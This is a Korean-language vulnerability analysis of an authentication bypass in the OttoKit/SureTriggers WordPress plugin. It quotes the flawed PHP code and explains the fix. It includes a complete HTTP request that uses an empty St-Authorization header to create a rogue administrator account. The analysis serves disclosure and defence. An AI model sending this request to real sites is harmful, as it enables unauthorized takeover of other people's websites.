

## URL

https://patchstack.com/articles/additional-critical-ottokit-formerly-suretriggers-vulnerability-patched

## Target

- OttoKit (구 SureTriggers) ≤ v1.0.82

## Explain

WordPress의 데이터 자동화‧연동 플러그인 OttoKit에서 인증을 우회해 WordPress 관리자 계정을 생성할 수 있는 권한 상승 취약점이 발견되었습니다. 아래는 취약점이 존재하는 `create_wp_connection` 함수의 코드입니다.

```php
public function create_wp_connection( $request ) {

	$user_agent = $request->get_header( 'user-agent' );
	if ( 'OttoKit' !== $user_agent && 'SureTriggers' !== $user_agent ) {
		return new WP_REST_Response(
			[
				'success' => false,
				'data'    => 'Unauthorized',
			],
			403
		);
	}
	$params = $request->get_json_params();

	$username = isset( $params['wp-username'] ) ? sanitize_text_field( $params['wp-username'] ) : '';
	$password = isset( $params['wp-password'] ) ? $params['wp-password'] : '';

	if ( empty( $username ) || empty( $password ) ) {
		return new WP_REST_Response(
			[
				'success' => false,
				'data'    => 'Username and password are required.',
			],
			400
		);
	}

	$user = wp_authenticate_application_password( null, $username, $password );//[1]

	if ( is_wp_error( $user ) ) {
		return new WP_REST_Response(
			[
				'success' => false,
				'data'    => 'Invalid username or password.',
			],
			403
		);
	}

	$connection_status = $request->get_param( 'connection-status' );
	$access_key        = $request->get_param( 'sure-triggers-access-key' );
	$connected_email   = $request->get_param( 'connected_email' );

	if ( false === $connection_status ) {
		$access_key = 'connection-denied';
	}
	
	$connected_email_id = isset( $connected_email ) ? sanitize_email( wp_unslash( $connected_email ) ) : '';

	if ( isset( $access_key ) ) {
		SaasApiToken::save( $access_key );
	}
	OptionController::set_option( 'connected_email_key', $connected_email_id );

	return new WP_REST_Response(
		[
			'success' => true,
			'data'    => 'Connected successfully.',
		],
		200
	);
}
```

이 함수에서는 `wp_authenticate_application_password` 함수(`[1]`)를 통해 사용자 인증을 시도하고 `is_wp_error`로 해당 함수의 반환값 `$user`를 사용자 인증이 성공적이었는지 실패(에러)인지 검사합니다. 

하지만 아래의 패치된 코드를 보면 `is_wp_error`가 아니라 `$user`가 `WP_User`의 인스턴스인지 확인하는 방식으로 사용자 인증 성공 여부를 확인하도록 변경된 것을 볼 수 있습니다. 따라서 `is_wp_error`를 사용하던 기존 방식에 문제가 있었다는 것을 알 수 있습니다.



이를 악용하면 관리자의 username만 아는 공격자가 임의의 password와 access key로 연결을 생성하고 `/wp-json/sure-triggers/v1/automation/action` 엔드포인트에 요청을 보내서 새로운 관리자 계정을 생성할 수 있습니다.

```
POST /wp-json/sure-triggers/v1/automation/action HTTP/1.1
Host: victim.blog
Content-Type: application/x-www-form-urlencoded
St-Authorization:

selected_options[user_name]=pwned_admin&
selected_options[user_email]=evil@hacker.tld&
selected_options[password]=S3cureP@ss!&
selected_options[role]=administrator&
aintegration=WordPress&
type_event=create_user_if_not_exists
```

또한 플러그인이 설치된 직후의 상태처럼 secret_key가 설정되어 있지 않은 경우에는 위처럼 `St-Authorization` 헤더에 빈 값을 넣게 되면 아예 인증과정을 우회하고 관리자 계정을 생성하는 것이  가능했습니다.